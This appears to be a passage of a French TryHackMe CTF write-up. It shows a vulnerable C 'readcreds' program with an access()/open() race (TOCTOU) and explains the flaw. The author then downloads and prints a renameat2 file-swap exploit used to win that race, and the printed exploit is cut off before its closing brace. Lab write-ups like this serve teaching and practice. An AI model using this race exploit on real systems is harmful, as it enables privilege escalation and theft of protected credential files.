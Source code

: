```bash
```
```cpp
$ cat readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);

}
```

On trouve un répertoire root_access.   
Dans ce répertoire on trouve le code source readcreds.   
Ce fichier lit juste un fichier que lui donne en argument et affiche le contenu sur la sortie standard.   
Avant d'ouvrir la fonction access vérifie si on a le droit d'ouvrir le fichier.  
Cette fonction a une faille de sécurité qui permet entre la vérification et l'ouverture de manipuler le fichier.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c -nv
2021-09-06 22:35:02 URL:https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c [295/295] -> "rename.c" [1]
tim@kali:~/Bureau/tryhackme/write-up$ cat rename.c 
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
```
